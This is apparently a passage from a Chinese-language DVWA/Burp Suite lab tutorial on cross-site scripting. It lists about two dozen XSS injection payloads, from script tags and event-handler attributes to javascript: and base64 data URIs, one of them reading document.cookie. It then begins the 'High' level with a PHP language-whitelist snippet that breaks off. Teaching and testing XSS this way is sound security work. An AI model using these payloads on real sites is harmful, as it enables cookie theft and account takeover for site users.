 ![在这里插入图片描述](/docs/images/content/security/burp_suite/action_01_web.md.images/9fcd024b036a52e2d7655b49fc78c846.png)
可以注入的标签有很多，如下：

```
<script>alert('xss')</script>
<script>alert(/xss/)</script>
<script>alert(123)</script>
<a href="javascript:alert(1)">test</a>
<a href="x" onfocus="alert('xss');" autofocus="">xss</a>
<a href="x" onclick=eval("alert('xss');")>xss</a>
<a href="x" onmouseover="alert('xss');">xss</a>
<a href="x" onmouseout="alert('xss');">xss</a>
<img src=x onerror="alert(1)">
<img src=x onerror=eval("alert(1)")>
<img src=1 onmouseover="alert('xss');">
<img src=1 onmouseout="alert('xss');">
<img src=1 onclick="alert('xss');">
<iframe src="javascript:alert(1)">test</iframe>
<iframe onload="alert(document.cookie)"></iframe>
<iframe onload="alert('xss');"></iframe>
<iframe onload="base64,YWxlcnQoJ3hzcycpOw=="></iframe>
<iframe onmouseover="alert('xss');"></iframe>
<iframe src="data:text/html;base64,PHNjcmlwdD5hbGVydCgneHNzJyk8L3NjcmlwdD4=">
<audio src=1 onerror=alert(1)>
<audio><source src="x" onerror="alert('xss');"></audio>
<audio controls onfocus=eval("alert('xss');") autofocus=""></audio>
<audio controls onmouseover="alert('xss');"><source src="x"></audio>
<video src=x onerror=alert(1)>
<video><source onerror="alert('xss');"></video>
<video controls onmouseover="alert('xss');"></video>
<video controls onfocus="alert('xss');" autofocus=""></video>
<video controls onclick="alert('xss');"></video>
```
#### Hign
看代码：
```
// Is there any input?
if ( array_key_exists( "default", $_GET ) && !is_null ($_GET[ 'default' ]) ) {

	# White list the allowable languages
	switch ($_GET['default']) {
		case "French":
		case "English":
		case "German":
		case "Spanish":
```